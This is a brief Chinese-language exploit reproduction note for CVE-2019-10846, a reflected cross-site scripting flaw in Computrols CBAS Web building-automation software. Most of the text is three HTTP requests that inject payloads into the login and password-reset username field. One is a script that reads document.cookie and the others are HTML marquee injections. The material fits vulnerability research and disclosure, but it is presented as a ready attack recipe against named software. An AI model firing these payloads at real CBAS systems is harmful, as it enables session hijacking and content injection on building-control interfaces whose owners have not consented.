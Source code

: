 （CVE-2019-10846）Computrols CBAS Web反射型xss
==============================================

一、漏洞简介
------------

Computrols CBAS Web是美国Computrols公司的一套楼宇自动化系统

二、漏洞影响
------------

Computrols CBAS Web\<=19.0.0

三、复现过程
------------

### 1、

    POST /cbas/index.php?m=auth&a=verifyid HTTP/1.1

    username="><script>confirm(document.cookie)</script>&submit_button=Send+Me+a+New+Password+Via+Email

### 2、

    POST /cbas/index.php?m=auth&a=login HTTP/1.1

    username="><marquee>htmlinjection</marquee>&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62

### 3、

    GET /cbas/index.php?m=auth&a=login&username="><marquee>my milkshake brings all the boys to the yard.</marquee>&password=damn_right HTTP/1.1
